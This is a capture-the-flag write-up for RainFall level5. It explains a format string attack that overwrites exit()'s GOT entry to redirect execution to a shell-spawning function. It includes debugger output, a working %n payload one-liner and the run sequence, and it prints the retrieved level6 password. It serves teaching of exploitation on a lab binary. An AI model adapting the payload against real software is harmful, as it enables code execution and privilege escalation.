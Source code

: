 We were tasked with exploiting a format string vulnerability in the `level5` binary to gain access to the next level (`level6`).

### 1. **Vulnerabilities Identified**:
   - **Format String Vulnerability**: The program uses `printf` which is vulnerable to a format string attack. This allows you to write arbitrary data to memory locations.
   - **Writable Global Offset Table (GOT)**: The GOT stores the addresses of dynamically linked functions like `exit()`. Since it’s writable, you can overwrite a function pointer in the GOT, causing the program to call another function (in this case, the `o()` function which calls `system()` and spawns a shell).
   
### 2. **Analyzing the Binary**:
   - We used GDB and `objdump` to analyze the binary.
   - The function `o()` was located at address `0x080484a4`.
   - The address of `exit()` in the GOT was found to be `0x08049838`.

``` bash 
level5@RainFall:~$ objdump -R level5 | grep exit
08049828 R_386_JUMP_SLOT   _exit
08049838 R_386_JUMP_SLOT   exit

(gdb) info function o
All functions matching regular expression "o":

Non-debugging symbols:
0x080483c0  __gmon_start__
0x080483c0  __gmon_start__@plt
0x08048420  __do_global_dtors_aux
0x080484a4  o
0x080485a0  __do_global_ctors_aux
(gdb)

```

### 3. **Exploitation**:
   - **Goal**: We wanted to overwrite the address of `exit()` in the GOT with the address of the function `o()`, so that whenever the program calls `exit()`, it would instead jump to `o()`, which would then call `system()` and spawn a shell.
   
   - **Steps to Exploit**:
     1. **Find the address of `exit()`**: The address of `exit()` in the GOT was found at `0x08049838`.
     2. **Find the address of `o()`**: The address of `o()` was found at `0x080484a4`.
     3. **Craft the Format String**: To overwrite the GOT entry for `exit()`, we created a format string that would:
        - Print a specific number of characters (`%134513824d`) to match the address of `o()` in decimal.
        - Use `%n` to write that value to the address of `exit()` in the GOT.
     4. **Execute the Exploit**: We crafted the following format string attack:
        ```python
        python -c 'print "\x38\x98\x04\x08" + "%134513824d%4$n"' > /tmp/exploit5
        ```
        This attack overwrites the GOT entry for `exit()` with the address of `o()`. When `exit()` is called later in the program, it jumps to `o()`, which then calls `system()` and spawns a shell.

### 4. **Final Execution**:
   - You ran the exploit:
     ```bash
    cat /tmp/exploit5 - | ./level5 | tr -d " "     
    whoami
    8level6
    cat /home/user/level6/.pass
    d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
    ^C
    level5@RainFall:~$ su level6
    ```

     This shows that you successfully switched to `level6` by executing the format string attack.

### 5. **Accessing the Flag**:
   - After spawning the shell, you switched to the `level6` user using `su level6` and retrieved the flag from the `.pass` file.

### 6. **Key Concepts**:
   - **Format String Attack**: By manipulating the format string in `printf`, you were able to control the program's memory and overwrite specific locations (in this case, the GOT entry).
   - **Global Offset Table (GOT)**: This table holds addresses of dynamically linked functions. By overwriting an entry in the GOT, you can change the function that gets called, leading to arbitrary code execution.
   - **Writable Memory**: Exploiting writable sections like the GOT and buffer overflows allows you to gain control over the program’s flow.

successfully exploited the vulnerability, overwrote the GOT entry, and gained access to the shell to move on to `level6`. This is a classic example of leveraging a format string vulnerability and manipulating memory to execute arbitrary code.


